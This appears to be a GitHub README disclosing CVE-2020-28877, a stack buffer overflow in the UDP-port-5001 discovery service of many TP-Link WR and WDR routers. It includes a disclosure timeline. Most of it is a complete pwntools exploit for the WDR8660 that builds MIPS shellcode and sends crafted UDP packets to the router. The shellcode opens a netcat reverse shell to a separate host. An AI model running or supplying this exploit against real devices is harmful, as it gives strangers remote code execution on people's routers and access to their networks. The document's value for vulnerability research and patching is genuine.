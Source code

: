 # TP-Link-poc

TP-Link router have a stack overflow in devDiscoverHandle server.

Any user can get remote code execution through LAN, this vulnerability currently affects latest WR、WDR series, including WDR7400,WDR7500,WDR7660,WDR7800, WDR8400,WDR8500,WDR8600,WDR8620,WDR8640,WDR8660,WR880N,WR886N,WR890N,WR890N,WR882N,WR708N etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability description

This vulnerability happen when  devDiscoverHandle  receive data by using `recvfrom` from `udp port 5001`.Then enter the `protocol_handler`->`parse_advertisement_frame`->`copy_msg_element`.In the function of `copy_msg_element` we can control `iParm1` and `iParm3` that It lead to a stack buffer overflow to execute arbitrary code.

![](./1.png)

## Poc

Refer to this video: [poc_video.mkv](./poc_video.mkv)

**poc&exp**

It's for WDR8660
```
import sys
import struct
import requests
from pwn import *
from time import sleep

context.arch='mips'
context.endian='little'

udp_data_addr = 0x0419680

def fix_checksum(data):
    checksum = 0
    for off in range(0, len(data), 2):
        checksum += u16(data[off:off+2])
    checksum &= 0xffffffff
    while True:
        if (checksum >> 0x10) == 0:
            break
        checksum = (checksum & 0xffff) + (checksum >> 0x10)
    checksum &= 0xffff
    return p16(0xffff - checksum)

context.arch='mips'
context.endian='little'

magic = b'\x01\x02\x0e\x00\xe1\x2b\x83\xc7'
shellcode = asm(shellcraft.nop()*0x8) + asm(shellcraft.execve(path = "/bin/sh", argv=['sh', '-c', 'mknod /tmp/a p; nc 192.168.1.102 8080 0</tmp/a | /bin/sh 1>/tmp/a 2>&1;']))

gadget1 = p32(udp_data_addr + 0x300)
pad2 = b'shellcode'.ljust(600-0x10, b'\x00') + gadget1

context.endian='big'
tmp = b'\x00\x05' + p16(len(pad2)) + pad2

checksum = fix_checksum(magic + p16(len(tmp)) + tmp)
payload2 = magic + checksum + p16(len(tmp)) + b'\x00\x00' + tmp

pad2 = b'helo'
tmp = b'\x00\x05' + p16(len(pad2)) + pad2
checksum = fix_checksum(magic + p16(len(tmp)) + tmp)
payload1 = (magic + checksum + p16(len(tmp)) + b'\x00\x00' + tmp).ljust(0x300, b'\x00') + shellcode

assert(len(payload1) < 0x5c0)
assert(len(payload2) < 0x300)

print("[*] Sending payload1")
udp=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
udp.sendto(payload1,('192.168.1.1',5001))
udp.close()

sys.stdout.write('[*] Waiting for 20 seconds')
i = 1
while i <= 20:
    sleep(1)
    sys.stdout.write('.')
    sys.stdout.flush()
    i += 1

print('')
print("[*] Sending payload2")
udp=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
udp.sendto(payload2,('192.168.1.1',5001))
udp.close()
sleep(1)
print("[+] Success")

```

## Timeline
2020.11.15 report to CVE and TP-Link

2020.11.21 assign CVE-2020-28877
